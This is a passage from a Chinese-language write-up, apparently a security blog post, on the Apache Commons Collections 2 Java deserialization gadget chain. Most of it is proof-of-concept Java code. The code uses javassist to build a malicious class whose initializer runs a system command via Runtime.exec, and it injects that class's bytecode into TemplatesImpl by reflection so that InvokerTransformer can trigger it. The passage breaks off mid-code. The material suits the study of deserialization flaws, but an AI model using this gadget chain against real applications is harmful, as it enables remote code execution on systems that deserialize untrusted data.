 ![undefined](https://p2.ssl.qhimg.com/t01e8d7587fbe23185d.png "undefined")

### POC-2
为了更好的符合实战利用中的要求，利用`InvokerTransformer`触发`TemplatesImpl`的`newTransformer`，从而读取恶意字节码从而进行执行命令，并且利用`javassist`和`TemplatesImpl`来进行构造。

```java
package CommonsCollections2;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.*;
import java.io.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/29 1:37 上午
 */
public class CommonsCollectionsGadget2 {
    public static void CC2() throws NoSuchMethodException, IllegalAccessException, NoSuchFieldException, ClassNotFoundException, NotFoundException, CannotCompileException, IOException{
        Class c1 = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer");
        Constructor constructor = c1.getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        Transformer transformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});

        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("CommonsCollectionsEvilCode");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);
        ctClass.writeFile("./");

        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        TemplatesImpl templates = new TemplatesImpl();
        Class clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(templates, "h3rmesk1t");
        _bytecode.set(templates, targetByteCodes);
```